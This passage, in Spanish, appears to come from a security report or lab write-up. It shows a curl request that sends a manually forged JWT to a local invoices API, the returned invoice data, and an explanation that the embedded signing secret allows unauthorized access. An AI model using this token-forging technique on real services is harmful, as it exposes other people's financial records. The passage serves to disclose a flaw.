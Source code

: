 ```sh
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzU4NjQ2MjI2LCJleHAiOjE3NTg2NDk4MjZ9.s7YWKpQKKbTFBboFc5v7Dj-FKRnsLK7Ahl5HFEkYvhw" \
     http://localhost:3000/invoices
```

**Respuesta obtenida:**

```json
[
  {
    "id": 1,
    "userId": 1,
    "amount": "101.00",
    "dueDate": "2024-12-31T05:00:00.000Z",
    "status": "unpaid"
  },
  {
    "id": 2,
    "userId": 1,
    "amount": "102.00",
    "dueDate": "2024-12-31T05:00:00.000Z",
    "status": "paid"
  },
  {
    "id": 3,
    "userId": 1,
    "amount": "103.00",
    "dueDate": "2024-12-31T05:00:00.000Z",
    "status": "paid"
  }
]
```

**Explicación:**

- El backend acepta el token generado manualmente usando el secreto embebido, permitiendo acceso no autorizado.
- Esto demuestra la vulnerabilidad de credenciales embebidas.

**Evidencia:**
